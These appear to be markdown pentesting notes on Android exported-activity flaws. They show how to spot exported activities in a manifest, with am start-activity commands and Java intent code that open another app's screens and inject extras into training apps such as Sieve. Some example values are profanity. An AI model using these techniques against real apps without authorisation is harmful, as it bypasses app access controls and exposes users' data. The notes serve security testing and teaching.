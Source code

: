 # Exported Actvites
exported actvites can lead to see senstive info also can lead to open another actvites and more functions which maybe danger if anyone can do that
## How to find ? 
### in `AndroidManifest.xml`
- search for  `android:exported="true"` in an activity
- before android 12 if an activity has an `intent-filter` declared in the manifest, Android automatically considers the activity as exported, even if you don't explicitly set `exported="true"`

```xml
<intent-filter>
  <action android:name="android.intent.action.MAIN"/>
  <category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
```

### open activity using shell
```powershell
am start-activity -n <package name>/.<activity name>
am start-activity -n com.mwr.example.sieve/.FileSelectActivity
```

### open activity by another app
```java
Intent I =  new Intent();
ComponentName C = new ComponentName("<app package name>", "<activity name>");
I.setComponent(C);
startActivity(I);

// example
Intent I =  new Intent();
ComponentName C = new ComponentName("com.mwr.example.sieve", "com.mwr.example.sieve.PWList");
I.setComponent(C);
startActivity(I);
```


# Exported Actvites with Extras
sometimes we can send an intent with some data if we have a code like the following and if the activity is exported then we can conrtol the data sent to it  



- java code
```java
Intent intent = getIntent();
username = intent.getStringExtra("username");
```
- AndoridMainfest
```xml
<activity android:name=".ChangePin" android:exported="true">
  <intent-filter>
    <action android:name="com.apphacking.changePin"/>
    <category android:name="android.intent.category.DEFAULT"/>
  </intent-filter>
</activity>
```

### open activity and use Extras in shell
```powershell
# explicit intent is an intent to specfic app
am start-activity -n <package name>/.<activity name> --es "paramter" "value"
am start-activity -n com.apphacking.alarmpin/.ChangePin --es "paramter" "value"

# implicit intent is an intent to be recived by appropiate apps
am start-activity -a <intent action name> --es "paramter" "value"
am start-activity -a <intent action name> -c <intent category name> --es "paramter" "value"

am start-activity -a com.apphacking.changePin  --es "username" "hacked"
am start-activity -a com.apphacking.changePin -c android.intent.category.DEFAULT  --es "username" "fuck"
```

### open activity and use Extras in another app
```java
// explicit intent
Intent I = new Intent();
ComponentName C = new ComponentName("<app package name>", "<activity name>");
I.setComponent(C);
I.putExtra("paramter", "value");
startActivity(I);

// example
Intent I = new Intent();
ComponentName C = new ComponentName("com.apphacking.alarmpin", "com.apphacking.alarmpin.ChangePin");
I.setComponent(C);
I.putExtra("username", "fucker");
startActivity(I);

// implicit intent
Intent intent = new Intent();
intent.setAction("<intent action name>"); 
intent.addCategory(<intent category name>);  
intent.putExtra("paramter", "value");        
startActivity(intent); 

// example
Intent intent = new Intent();
intent.setAction("com.apphacking.changePin"); 
intent.addCategory(Intent.CATEGORY_DEFAULT); 
intent.putExtra("username", "fuck");         
startActivity(intent); 



```
